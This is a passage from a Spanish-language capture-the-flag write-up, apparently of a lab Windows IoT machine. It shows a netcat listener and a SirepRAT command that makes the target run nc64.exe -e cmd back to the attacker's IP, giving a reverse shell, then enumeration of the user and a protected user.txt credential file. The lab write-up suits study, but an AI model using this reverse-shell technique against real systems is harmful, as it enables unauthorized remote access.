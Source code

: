 Ahora si. Intentamos entablarnos una reverseshell.

1. Nos ponemos en escucha por el puerto 443

    ```bash
    rlwrap nc -nlvp 443
    ```

1. Lanzamos la shell

    ```bash
    python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args " /c C:\Windows\System32\spool\drivers\color\nc64.exe -e cmd 10.10.14.8 443" --v
    ```

Ya estamos a dentre de la maquina victima.

```bash
whoami
#Output
'whoami' is not recognized as an internal or external command.

echo %USERNAME%
#Output
Omni
```

Como no hay directorio de usuarios en la maquina buscamos recursivamente por un fichero llamado 
```bash
 user.txt 
```


```bash
dir /r /s user.txt
cd C:\Data\Users\app
type user.txt
```

Aqui vemos quel fichero esta de typo 
```bash
 System.Management.Automation.PSCredential 
```
 que significa que esta cifrado. Intentamos leerlo con
el comando 
```bash
 (Import-CliXml -Path user.txt) 
```
 pero no nos deja. Miramos los derechos de este fichero con 
```bash
 icacls user.txt 
```
 y vemos quel usuario
app tiene los derechos full para este fichero. Esto significa que nos tenemos que convertir en el usuario **app**. 


### User Pivoting {-}
